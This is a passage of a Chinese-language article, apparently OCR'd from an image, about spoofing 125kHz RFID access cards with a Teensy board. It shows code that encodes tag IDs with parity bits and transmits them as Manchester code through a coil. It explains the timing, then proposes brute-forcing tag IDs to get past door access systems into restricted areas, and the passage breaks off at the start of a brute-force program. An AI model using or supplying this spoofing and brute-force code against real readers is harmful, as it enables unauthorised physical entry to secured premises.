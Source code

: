 ```
if (code == '9') {a+=1;d+=1;return "10010";}
if (code == 'A') {a+=1;c+=1;return "10100";}
if (code == 'B') {a+=1;c+=1;d+=1;return "10111";}
if (code == 'C') {a+=1;b+=1;return "11000";}
if (code == 'D') {a+=1;b+=1;d+=1;return "11011";}
if (code == 'E') {a+=1;b+=1;c+=1;return "11101";}
if (code == 'F') {a+=1;b+=1;c+=1;d+=1;return "11110";}
return "00000";
}

String EvenParity(int Parity)
{
if ((Parity % 2) == 1) return "1";
return "0";
}

void toCode(String s)
{
for(int i = 0; i < 64; i++)
{
if (s[i]=='0'){data_to_spoof[i]=0;}else{data_to_spoof[i]=1;}
}
}
void loop()
{
for(int i = 0; i < 64; i++)
{
set_pin_manchester(0, data_to_spoof[i]);
delayMicroseconds(256);
set_pin_manchester(1, data_to_spoof[i]);
delayMicroseconds(256);
}
}

```

在这里要提出的是，有可能你不理解为什么这么发送，因为它的编码为是：曼彻斯特码，所以我在这也通俗的说一下吧。

例如要发送 64 位数据:

```
111111111 00000 01100 00000 00000 01010 00000 00110 01001 01111 00101 00010 
```

那用多少时间传送 1 位呢？答案是 64，125khz 等于 512us 也就是说 512us 转送 1 位，但曼彻斯特码是用 2 位来表示的，如果数据是 1 的话，曼彻斯特码为 10，数据为 0 的话，曼彻斯特码为 01。所以转送时 512us 转一位数据换算为曼彻斯特码转输就应该是 512us/2=256us 传送一个，然而程序是把 64 位数据换算成曼彻斯特码发送，所以发送间隔为 delayMicroseconds(256);

当我们利用 Teensy 进行相关的模拟操作的时候，发现实际上只要我们做相关穷举测试，或者我们可以更加快速的突破门禁系统的限制进入到受限区域，在测试的环境当中，因为读卡器并没有任何延时读取出现，所以我们可以极快的速度穷举相关的 TagID，但因每种门禁都有自身的设置以及环境因素，我们不确定以下的穷举代码是否适合大家，故此我们只是以提出可行性猜想来写本文。

以下是暴力穷举测试程序代码：

```
String sStart = "1111111110000000000";
String sStop = "0";
int data_to_spoof[64];
int led = 6;
int coil_pin = 9;
int a,b,c,d;
unsigned long id;
char HexCode[8];

void setup()
{
// Serial.begin(9600);
pinMode(led, OUTPUT);
```